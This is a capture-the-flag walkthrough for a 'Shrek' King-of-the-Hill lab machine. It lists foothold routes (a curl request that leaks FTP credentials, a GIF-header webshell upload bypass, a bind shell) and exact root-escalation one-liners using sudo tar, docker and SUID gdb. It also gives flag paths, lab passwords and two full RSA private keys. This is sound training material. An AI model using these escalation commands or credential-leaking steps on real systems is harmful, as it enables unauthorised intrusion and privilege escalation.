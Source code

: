 # Shrek KOTH machine

paths to foothold:

- on port 80, under `/api` there is a custom service that reveals the ftp credentials. post `search=f` to /api/search.php to reveal them. this allows access to ftp, where there is a text file containing creds for user `donkey`
  - `curl -d "search=f" http://10.10.218.158/api/search.php`
  - might return `ftp:EkRYje58bhFpg2uW`
  - message.txt contains `J5rURvCa8DyTg3vR`

these have been consistent over at least two games

- on port 80, `/upload` contains a file upload that checks for gif or png header. uploading a webshell that starts with `GIF87a` will pass the gif check and be placed under `/upload/uploads`. the webshell will execute as `donkey`
- `robots.txt` reveals a text file containing the ssh private key of user `shrek`
- on high port `65432` (possibly random) runs a limited bind shell for user `puss`

paths to root:

- donkey can run tar as root. therefore `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` will escalate
- shrek has a `check.sh` script in his home folder, that appears to be run by root every minute and which he can alter with a rev shell script or similar
- puss is a member of the docker group, and can get a root shell via `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- `gdb` has the suid bit set. any user can get root via `./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`

other things:

- `run-parts` has the suid bit set, but couldnt work out how to escalate it as it doesnt support the options gtfobins suggests. getting it to run a shell script does not preserve privileges
- cms made simple 2.2.8 is running under /cms on port 80. this has rce if the creds can be guessed - the hash in the db was not crackable
- tomcat is on 8080/8009. maybe ghostcat?

## flags

- /root/root.txt
- /home/shrek/flag.txt
- /home/donkey/flag.txt
- /home/puss/flag.txt
- /srv/web/flag.txt
- mysql, 'flag' table in cms database (thanks to mug3njutsu on discord for this)

## ssh keys

shrek:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh
ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----
```

puss

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA3rYTsWn7Rc0ShhrLf5SM5lDLQFw6tuAmckGG7q7tsgDxzIBE
IpVkn8Y4XX8ZPnOOrzzw9NYS+jUNb0+3QxpRv576QsOmlkSoSLcxNfOLPKpqsAAJ
uJ7Bl8LhVfh23aSL5z2TYeeTSrPq5rxcWQE/hmq0kF8WChppEXaxhHjB7zhlj8in
XiOUtPxFFe9xgm6UQeSdV8M8SS6dG5EN1NUTf5I1EmzwK+RWzVp52GOlonyDr0gU
FueAvjvi9ZuEg6tcOjgxhFZOjf9HLUW+1e8hW9GfEqTya+nisTfguHoG+GvpXB0C
LqpY91hQtr1J0i29mdLGAJ048/amczjMuJmCNQIDAQABAoIBAElF6nDCh7NNZzzL
8AwHmdvk1RpVvdORJ9ULjhNVZkrcWLGJueEO+c4/bygDuxB7AITTLgu/qvq7HbJz
rb3cGO1MptX0fQiPijZyXzR67mKFRxikyo39XYBK08xvNNxzWLw53BWoFSPM0goc
Ct4VtQrKbKHbRusICW1/eaQ1/shvTnsePTpWJ7MRUNIk7nCMxeq/t7pw7I9ju3mI
gGM+uz2ZJzZOqJx/x0ogQDPJoIEd2Q7Z9twQ7+S4+rKQPz22mW+qYDq11OWVb0Ef
LLRZ+ue5asHZ2HzKWLbEy3WCSPQNVk4cYm4CyvDSvzV9GCukUVTypKaeXNrK4qJ8
TnVY78ECgYEA9drZ5IF0J2qfMgra5/TRpI+aTVO/NXWhxaRmoyh6Af60gfNLnWKp
J+qJFqZuf3Qwtencv3ocSraVeh0r3aM+LDUYD/LSOnUaj1iY2ckCArZ8KOXGH6i7
AdUqQZzqoJuUb3ztg1Nhu2iWs/3ezz6l1yOvCP9m5020RAqX3DSJkskCgYEA5+a9
+948bVjiPYfFSq5qNd647+RhBpvjJW482BhujsHB+qY+VFbqc3bOIWVeXKTmjQ5y
vhbrUL9h1ulCriSsRAK0qQwW4LH6AgFJvFUm4KZf849iG6dLyFE4H4sYgDGZBW44
WJ8lRVkGJCnexI73R1oMizILasg9/5BR50Jdng0CgYEAtUop/ivPQPmIZlhGz2Bh
7pzNxVOJ3ZveLGVsIcfJIAt3g5OqIGYOIhb5+6/CL024VYwbcT5T+mvkkWVNYWPs
hqCoG6qMhvqvGSDVpVJpnyJ9L5Mvo0zCiTlsrXFOOhw/Om6+nWYw3QbkidkcIWoq
1BfGDDZ45PsRgFLnZEOBZrECgYAK5DVsDOX9pL0LcsL7XPG0Ef/RlIJSEyQ579F/
vLYEkmkP4pruzx43yg6oVuB1rXD+kv0knGL06egoddAh6asFjrL5dY3lg7ZgPbs+
0yj+SBIdmFBdSCAxCk9+e8Ps0WeEb8bJsr/HYAT/0c+an7RRb5NDPlh27WysAhU2
rVFESQKBgGIQ4dIwhiaX7KVyG1QleWC8tJw6sMbzr3R1VKrKAV7NHOcBVfms9/bP
FhZrnDGHKkUAWZ6klGaTHcvq8fK6bas5LKkrNo5DPaiQFbD7x5Lyx4PdPupnxi91
k0hrZqy9vjpxtyIj8tfb3ccPeBiRYDwDyiiPmccOBRHJDwD+S89z
-----END RSA PRIVATE KEY-----
```
